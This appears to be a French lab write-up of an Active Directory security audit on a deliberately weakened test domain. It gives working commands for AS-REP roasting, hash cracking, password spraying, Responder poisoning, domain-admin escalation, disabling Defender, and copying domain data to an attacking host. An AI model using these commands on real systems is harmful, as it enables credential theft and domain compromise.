




<h1 align="center">AUDIT DE SÉCURITÉ WINDOWS AD</h1>


<br>

<p align="center">
  
</p>
<!-- ça servait à rien de le faire gros malin -->


<br>


## Mise en place de BadBlood

<br>

> [!NOTE]
> * Afin de rendre l'Active Directory vulnérable le script **BadBlood** est utilisé, il génère de nombreux groupes et utilisateurs avec de mauvaises permissions ainsi que des paramètres générant des failles exploitables comme c'est souvent le cas en entreprise.
> 
> * ⚠️ Ne sourtout pas utiliser ce script sur un DC d'entreprise (dommages non réversibles).
> 
> * [Lien vers la page GitHub du créateur de BadBlood](https://github.com/davidprowe/BadBlood)

<br>

Téléchager et exécuter le script
```Powershell
# clone the repo
git clone https://github.com/davidprowe/badblood.git
#Run Invoke-badblood.ps1
./badblood/invoke-badblood.ps1
```


<br>


## Découverte des services
```sh
sudo nmap -sV 10.0.0.1
```


<br>


# __PING CASTLE__

* Ping Castle permet de faire un état de santé général de l'Active Directory.
* Cet outils est basé sur les critères de sécurités comme CIS Benchmarks, ANSSI
* Il génère un rapport détallé en 4 blocs distincts.
* [Lien vers le téléchargement de PingCastle](https://www.pingcastle.com/download/)

<br>


Un score est indiqué pour chacune des 4 parties, trust est à 0 car il n'y a pas de DC de réplication.


<br>


| Catégorie            | Description                                                     |
|----------------------|-----------------------------------------------------------------|
| Stale Objects        | Operations related to inactive or obsolete user or computer objects |
| Trusts               | Connections between two Active Directory domains or forests     |
| Privileged Accounts  | Administrators and highly privileged accounts in Active Directory |
| Anomalies            | Specific security control points and abnormal behaviors         |


<br>

Dans la partie **Stale Objects** on retrouve une liste de comptes qui ne requièrent pas de pré-authentification Kerberos


<br>

On peut aussi voir un compte administrateur qui ne nécéssite pas de pré-authentification Kerberos




Vérifer les comptes qui ne nécéssitent pas de pré-authetification Kerberos
```powershell
Get-ADObject -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=4194304)"
```

Protocole Kerberos


<br>


# **AS-REP Roasting** 

Cette vulnérabilité consite à récupérer un ticket AS-REP

* En productions les comptes de services ont déjà un mot de passe car ils sont utilisés tous les jours.
* Certains programmes et applications ne supportent l'authentification LDAP si la préauthentification n'est pas désactivée sur le compte de service.
* Si la pré-authentification est désactivée sur un compte, n'importe qui peut réclamer un ticket au nom de l'utilisateur.
* Impacket permet de récupérer le message AS-REP (Authentication Service Response) avec le hash kerberos (etype 23 – RC4-HMAC).

<br>

> [!NOTE]
> * Créer un fichier avec les noms de connexion utilisateurs listés dans PinCastle (usr.txt ici). 
> * J'ai dû changer le mot de passe manuellement dans l'AD car le script BadBlood ne connecte pas automatiquement les comptes.


Avec Impacket :
```sh
impacket-GetNPUsers tssr-cyber.fr/ -no-pass -usersfile usr.txt
```

| Code d’erreur Kerberos            | Statut de l’utilisateur                                   |
|----------------------------------|------------------------------------------------------------|
| KDC_ERR_C_PRINCIPAL_UNKNOWN      | Le nom d’utilisateur n’existe pas                          |
| KDC_ERR_PREAUTH_REQUIRED         | Le nom d’utilisateur est valide et le compte est activé    |
| KDC_ERR_CLIENT_REVOKED           | L’utilisateur existe, mais le compte est désactivé ou bloqué |
| KDC_ERR_KEY_EXPIRED              | Password expiré, changé le pswd pur reset   |


Cibler un seul compte
```sh
impacket-GetNPUsers TSSR-CYBER.FR/KATRINA_RUTLEDGE -no-pass
```


Ajouter le hash dans un fichier
```sh
printf '%s\n' '$krb5asrep$23$COLETTE_MCKEE@TSSR-CYBER.FR:<hash>' > COLETTEHASH.txt 
```


<br>


## __OFFLINE CRAKING__


* Après avoir avoir récupéré un hash, le mettre dans un fichier et essayer de le craker avec hashcat ou JhonTheRipper
* Le fichier asrep.hash contient le hash AS-REP obtenu avec impacket : `$krb5asrep$23$KATRINA_RUTLEDGE@CYBER-MANAGEMENT.FR:<hash>`

```sh
sudo hashcat -m 18200 -a 0 asrep.hash /usr/share/wordlists/rockyou.txt
```


<br>

Rajouter un fichier de règle si besoin
```sh
sudo hashcat -m 18200 -a 0 berniepatehash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```


<br>


## __DUMP AD__


* ldapdomaindump
  * Dumper les utilisateurs AD
  * Dumper les groupes AD
  * Dumper la Domain policy
  * Dumper les computers AD
  * Dumper les OS Version computers AD

<br>

> [!NOTE]
> Les résultats semblent similaires en dumpant avec un utilisateur standard 
   
<br>

Dumper l'AD et afficher le rapport utilisateur (`-o`va créer un dossier de destination)
```sh
ldapdomaindump -u 'TSSR-CYBER.FR\KATRINA_RUTLEDGE' -p Hacker1 10.0.0.1 -o LDAP-DUMP
firefox domain_users.html  
```



<br>

Domain policy rapport


<br>


## Comptes qui répondent aux requêtes **Kerberos (AS-REQ)**

* Il peut aussi être utile d'énumérer les comptes qui répondent aux requêtes **Kerberos (AS-REQ)** 
* Ca peut permettre d'écarter :
    * compte désactivé
    * compte verrouillé
    * compte sans mot de passe Kerberos valide
    * compte “logon interdit”
    * compte machine / service
    * compte protégé (Protected Users, smartcard required, etc.)

```sh
./kerbrute_linux_amd64 userenum -d TSSR-CYBER.FR /home/toto/Bureau/domnames.txt -v
```


<br>


## __Comptes AD qui ont le même mot de passe__


* Tester un mot de passe avec un utilisateur valide de l'AD (login + mdp)
* Il est possible d'utiliser sprayhound sans compte valide
* Retrouver plus d'infos sur [la page GitHib SprayHound](https://github.com/Hackndo/sprayhound)

<br>


> [!WARNING]
> * SprayHound obtiendra la password policy avec un compte valide.
> * Sans compte valide, pas de découverte de password policy donc attention au blocage de comptes.

```sh
sprayhound -d TSSR-CYBER.FR -dc 10.0.0.1 -lu a.leration -lp 'Tssrcyber1234'  -p 'Tssrcyber1234'
```





<br>


## __Responder__

* Responder usurpe des services via MDNS / LLMNR / NBT-NS  / WPAD 
* Il vient se placer entre le client et le “serveur” inexistant (qu'il imite)
* Il peut permettre de forcer une authentification NTLM puis récupère le hash de Kerberos

<br>

Indiquer l'interface sur laquelle on souhaite écouter (celle de la machine d'attaque)
```sh
sudo responder -I eth0 -w
```

<br>

Un test simple pour voir si Responder fonctionne est d'effectuer un ping sur une machine ou un serveur inexistant
```bat
ping FAUXSERVEUR
```
Windwows aura bien une réponse au ping pour FAUXSERVEUR.


<br>

* Windows suit cet ordre lors du ping : DNS, LLMNR, NBT-NS
* Comme FAUXSERVEUR n’existe pas en DNS, windows diffuse ensuite les requêtes LLMNR / NBT-NS sur le réseau
* Responder répond “c’est moi FAUXSERVEUR”


En se connectant depuis un navigateur de la machine cliente vers la machine attaquante on peut déclencher un UAC et capturer le hash.


Chemin des logs Responder :
```
/usr/share/responder/logs
```


<br>


## __Se conencter via WinRM sur la machine victime__

L'utilisateur doit être dans le groupe admin du domaine
```sh
sudo evil-winrm -i 10.0.0.1 -u '<UserName>@<Domain-Name>' -p '<password>'
```



Extraire une liste d'utilisateurs de l'AD
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName | Out-File -Encoding UTF8 C:\Users\Administrateur\Desktop\domusers.txt
```
Tranférer la liste du DC vers la Kali
```sh
scp C:\Users\Administrateur\Desktop\domusers.txt totol@10.0.0.51:/home/toto/Bureau/
```

Afficher les groupes contenant la string "admin"
```powershell
Get-ADGroup -Filter 'Name -like "admin*"' | Select name
```

Ajouter un utilisateur dans le groupe admin du domaine
```powershell
Add-ADGroupMember -Identity "Admins du domaine" -Members "EDDIE_ROACH"
```

Ajouter du flag DONT_REQ_PREAUTH (attribut userAccountControl) désactive la préauth kerberos
```powershell
Set-ADUser EDDIE_ROACH -Replace @{userAccountControl = ( (Get-ADUser EDDIE_ROACH -Properties userAccountControl).userAccountControl -bor 0x400000 )}
```

Changer la password d'un utilisateur 
```powershell
Set-ADAccountPassword EDDIE_ROACH -Reset -NewPassword (ConvertTo-SecureString "Password123456" -AsPlainText -Force)
```

Récupérer son ticket kerberos
```sh
impacket-GetNPUsers TSSR-CYBER.FR/EDDIE_ROACH -no-pass
```

Evilwinrm permet aussi de se conencter avec un hash NTLM (Pass-the-Hash) et de charger des scripts en mémoire pour éviter la détection.


<br>


# __BLOODHOUND__

installation de Docker-Compose sur Kali
```sh
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo curl -L "https://github.com/docker/compose/releases/latest/download/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
sudo ln -s /usr/local/bin/docker-compose /usr/bin/docker-compose
docker-compose --version
```

Conteneur BloodHound
```sh
mkdir bloodhound && cd bloodhound
```

Téléchargement et création du fichier docker-compose Bloodhound (fichier de IT-Connect)
```sh
sudo wget https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml -O ~/Documents/docker-compose-Bloodhound.yml
```

Pour lancer le docker compose en arrière plan
```sh
sudo docker-compose -f ~/Documents/docker-compose-BloodHound.yml up -d
```

Arrêter le conteneur en arrière plan
```sh
sudo docker-compose -f docker-compose-BloodHound.yml down
```


<br>


Désactiver Defender
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisablePrivacyMode $true
```

Télécharger SharpHound
```powershell
wget https://github.com/SpecterOps/SharpHound/releases/download/v2.8.0/SharpHound_v2.8.0+debug_windows_x86.zip -OutFile C:\Users\Administrateur\Downloads\SharpHound.zip
```

Dézipper et exécuter SharpHound
```powershell
sl C:\Users\$env:USERNAME\Downloads
Expand-Archive -Path SharpHound.zip -DestinationPath .\SharpHound
cd .\SharpHound\
.\SharpHound.exe -d $env:USERDNSDOMAIN
```
Après exécution du script un fichier "20260108151307_BloodHound.zip" apparîtera il faut l'importer dans la machine où se trouve le serveur web installé avec doker-compose.

<br>

Transférer le fichier vers la machine d'attaque 
```sh
scp -P 1111 administrateur@10.0.0.1:/C:/Users/Administrateur/Desktop/20260108151307_BloodHound.zip .
```

Déziper BloodHound.zip dans un dossier
```sh
mkdir BH_extract
sudo unzip 20260108151307_BloodHound.zip -d BH_extract
```

Activer Defender
```powershell
Set-MpPreference -DisableRealtimeMonitoring $false -DisableIntrusionPreventionSystem $false -DisableIOAVProtection $false -DisableScriptScanning $false -EnableControlledFolderAccess Enabled -EnableNetworkProtection Enabled
```


<br>


Se connecter sur la page web de BloodHound et changer le mot de passe

Identifiants indiqués dans le fichier docker-compose.yml
```
BloodHound 
http://localhost:8080
user : admin
password : BloodhoundIsNow123

Neo4j
WEB :http://localhost:7474
DB : localhost:7687
user : neo4j
password : bloodhoundcommunityedition
```

Aller dans Upload et charger les fichiers 